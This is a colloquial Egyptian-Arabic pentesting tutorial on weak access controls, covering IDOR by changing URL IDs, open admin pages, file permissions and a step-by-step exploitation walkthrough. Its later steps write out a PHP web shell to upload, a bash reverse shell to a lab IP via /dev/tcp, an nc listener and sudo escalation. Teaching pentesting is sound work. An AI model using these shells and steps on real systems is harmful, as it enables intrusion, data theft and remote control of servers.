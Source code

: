 تمام، هشرح لك "Weak Access Controls" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هو Weak Access Controls؟**

#### **الشرح العميق:**
"Weak Access Controls" يعني إن التحكم في مين يقدر يدخل أو يعمل حاجة في نظام أو تطبيق (زي موقع ويب أو سيرفر) مضبوط بشكل ضعيف أو مكسور. يعني المفروض يكون فيه قواعد صارمة تحدد مين يشوف إيه ويعمل إيه (زي إن المستخدم العادي ما يشوفش بيانات الأدمن)، لكن لما القواعد دي ضعيفة، أي حد يقدر يتجاوزها ويوصل لأماكن أو بيانات المفروض ممنوعة عليه. ده بيحصل كتير في الويب بسبب سوء تصميم أو إعدادات غلط.

- **أمثلة:** 
  - مستخدم عادي يقدر يشوف حساب مستخدم تاني بتغيير رقم في الرابط.
  - صفحة أدمن مفتوحة من غير ما تتأكد مين اللي بيدخلها.

#### **الأدوات والأوامر العملية:**
1. **فحص الوصول في الويب:**
   - لو موقع فيه رابط زي: `http://target.com/user?id=123`.
   - جرب: `http://target.com/user?id=124` -> لو فتح حساب حد تاني، يبقى Access Control ضعيف.

2. **فحص المجلدات:**
   - `curl -I http://target.com/admin/` -> لو رجع `200 OK` بدل `403 Forbidden`، يعني الصفحة مفتوحة.

3. **فحص السيرفر:**
   - لو وصلت لـ Shell:
     - `ls -l /var/www/html/` (لينكس) -> تشوف صلاحيات الملفات.
     - `icacls "C:\inetpub\wwwroot"` (ويندوز) -> لو `Everyone:(F)`، يعني مفتوح.

#### **خلاصة بالعامية المصرية:**
"يعني زي ما تكون حاطط بواب على العمارة بس ناسي تقفله، أي حد يقدر يخش يلعب جوا! Weak Access Controls يعني الباب مفتوح والكل يعمل اللي عايزه."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
لما Access Controls تبقى ضعيفة، بيحصل كوارث لأن المهاجم يقدر:
- **يوصل لبيانات حساسة:** زي بيانات مستخدمين أو أسرار الشركة.
- **يعمل تصعيد أفقي:** يدخل على حسابات مستخدمين تانيين (Horizontal Privilege Escalation).
- **يعمل تصعيد عمودي:** يوصل لصلاحيات أدمن أو يتحكم في النظام (Vertical Privilege Escalation).
- **يخرب النظام:** يعدل أو يمسح حاجات مهمة.

في الـ Pentesting، الثغرة دي بتكون ذهب لأنها بتخليك تتحرك بحرية في النظام من غير ما حد يوقفك.

#### **الأدوات والأوامر العملية:**
1. **استغلال في الويب:**
   - لو لقيت `http://target.com/profile?id=123`:
     - جرب: `http://target.com/profile?id=1` -> لو فتح حساب الأدمن، يبقى ضعيف.
   - أداة: Burp Suite -> Intercept الطلب وعدل الـ ID.

2. **تجاوز صفحات الأدمن:**
   - `http://target.com/admin` -> لو مفتوحة بدون تسجيل دخول:
     - جرب: `http://target.com/admin/settings.php`.

3. **استغلال صلاحيات الملفات:**
   - في لينكس: `echo "whoami" > /var/www/html/test.sh` -> لو نفذته وطلع `root`، يبقى مفتوح.

#### **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون سايب بيتك من غير حارس، أي حد يخش ياخد حاجة أو يخرب! المهاجم يلاقي الباب مفتوح، يبقى الكبير بتاع الحتة على طول."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الضعف ده عشان تتجاوز القيود وتاخد وصول أعلى أو تسرق بيانات.
- **مثال واقعي:** لو لقيت صفحة أدمن مفتوحة، تدخل عليها وتتحكم في الموقع.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي Access Controls ضعيفة، زي ما تكون لقيت طريق فرعي مفتوح في لعبة، بتستخدمه عشان تكسب وتبقى الكبير بتاع الماتش!"

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

#### **الخطوة 2: اختبار Access Controls**
- جرب في المتصفح:
  - `http://192.168.1.10/user?id=123` -> غيرها لـ `id=124` أو `id=1`.
  - لو فتحت حساب حد تاني، يبقى Access Control ضعيف.
- جرب صفحات حساسة:
  - `http://192.168.1.10/admin/` -> لو مفتوحة بدون login، يبقى ذهب.

#### **الخطوة 3: استغلال أفقي**
- لو لقيت صفحة زي `http://192.168.1.10/profile?id=123`:
  - عدل الـ ID لـ `1` أو `999`:
    - `http://192.168.1.10/profile?id=1`.
  - لو جابلك بيانات أدمن (زي كلمة سر)، استخدمها.

#### **الخطوة 4: استغلال عمودي**
- لو لقيت `/admin/` مفتوح:
  - جرب: `http://192.168.1.10/admin/settings.php`.
  - لو فيه حقل Upload:
    - ارفع Shell: `<?php system($_GET['cmd']); ?>` كـ `shell.php`.
    - افتح: `http://192.168.1.10/admin/shell.php?cmd=id` -> `www-data`.

#### **الخطوة 5: تصعيد الصلاحيات**
- من الـ Shell:
  - `id` -> `www-data`.
  - `http://192.168.1.10/admin/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `sudo -l` -> لو لقيت حاجة زي `sudo /bin/bash`، نفذها.

#### **الخطوة 6: توثيق**
- سجل كل الصفحات أو البيانات اللي وصلتلها.
- قدم تقرير يوضح إزاي Access Controls الضعيفة فتحت الباب.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت بيت مفتوح، خشيت، لعبته فيه، وطلعت الكبير بتاع الحتة! Access Controls لما تبقى ضعيفة، تبقى طريقك للفوز بسهولة."

---

### **الخلاصة النهائية:**
Weak Access Controls هي ثغرة كبيرة لأنها بتخلّي أي حد يقدر يتجاوز القيود ويوصل لأماكن ممنوعة. في الـ Pentesting، دور عليها في الروابط، الصفحات، أو الملفات، استغلها عشان تسرق بيانات أو تاخد Shell، ووري العميل إن نظامه زي سوق مفتوح للكل! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!